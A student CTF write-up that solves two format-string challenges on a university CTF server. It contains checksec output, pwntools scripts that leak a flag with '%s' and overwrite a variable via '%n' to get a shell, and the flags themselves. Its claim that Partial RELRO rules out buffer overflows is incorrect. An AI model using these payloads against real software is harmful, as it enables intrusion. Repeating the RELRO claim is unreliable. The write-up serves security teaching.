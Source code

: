 # Trabalho Realizado na Semana 5

## CTF

### Desafio 1

After executing `checksec` with `program`, the result was:

```bash
RELRO           STACK CANARY      NX            PIE            RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   81 Symbols     Yes	0		2	program
```
This program has **Partial RELRO**, meaning that there is no risk of a buffer overflow. Because there is a **stack canary**, stack smashing is mitigated (except by a leak or bruteforce). **NX** is enabled, therefore it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable. Since there is no **PIE**, **ROP** attacks aren't difficulted.

After some time exploring the source code, we found some important information about this executable:

```
- In the line 27, a user input is printed and the user has control over the first argument of printf.
- Giving the control of the first argument of printf to the user has memory leaks vulnerabilities, such as read or changing the value of variables.
- The address of flag is 0x0804c060
```

We used the printf function to make a format string attack. The following python code was used to get the flag:

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08"+b"%s")
p.interactive()

```

Flag:
```
flag{3a0f46cdeaa85626428c12879b84703f}
```

### Desafio 2

This challenge is very similar to the first one in the way that the user controls the printf call but it has some key differences:

```
- Instead of only reading the value of the global variable, we have to change it to 0xbeef in order to open up a bash
- The bash is used to get the flag with: cat flag.txt
- The address of the key value is 0x0804c034.
```

Similarly to the first one, we needed to use a format string attack but with some changes. Instead of reading the value, we needed to write an integer value to match 0xbeef. 0xbeef is 48879 in decimal, and this is the value that the `key` variable must have. 

In printf(), `%n` is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of `%n`. We could use this feature to store the wanted value in the `key` variable. Using the following code we are able to achieve that:

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(b"\x34\xc0\x04\x08" + b"%48875x%1$n")
p.interactive()
```

This translates to writing the address of the `key` variable in the stack, in little endian format. After that, as we already written 4 bytes, we only need 48875 more to make 0xbeef, so we read them from the program and store them in the `key` variable. After that, the comparison turns true and we get the shell.

Flag:
```
flag{91b434959469afb533a5516651d74c98}
```